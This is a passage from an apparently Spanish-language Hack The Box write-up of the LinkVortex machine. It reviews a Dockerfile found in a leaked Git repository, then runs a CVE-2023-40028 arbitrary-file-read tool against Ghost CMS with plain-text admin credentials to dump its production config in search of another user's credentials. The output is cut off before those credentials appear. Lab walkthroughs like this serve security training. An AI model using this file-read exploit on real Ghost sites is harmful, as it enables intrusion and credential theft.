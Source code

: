 Teniendo en cuenta que podemos leer archivos locales del equipo víctima, después de revisar varios archivos típicos y no obtener ningún resultado esperado, volvimos al repositorio que nos descargamos de `Git`.

En este repositorio no revisamos en su momento el archivo `Dockerfile.ghost`. Verificamos que el contenido de este archivo indica que se ha realizado una copia de la configuración en la siguiente ruta `/var/lib/ghost/config.production.json`.

<pre class="language-bash"><code class="lang-bash">❯ tree
.
├── dev.linkvortex.htb
│   ├── Dockerfile.ghost
│   └── ghost
│       └── core
│           └── test
│               └── regression
│                   └── api
│                       └── admin
│                           └── authentication.test.js
└── index

8 directories, 3 files
<strong>
</strong><strong>❯ cat dev.linkvortex.htb/Dockerfile.ghost
</strong>FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
</code></pre>

Probaremos de listar el contenido de este archivo de configuración explotando el CVE que hemos encontrado. Verificamos que el archivo contiene las credenciales del usuario `bob@linkvortex.htb`.

```bash
❯ ./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45' -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
```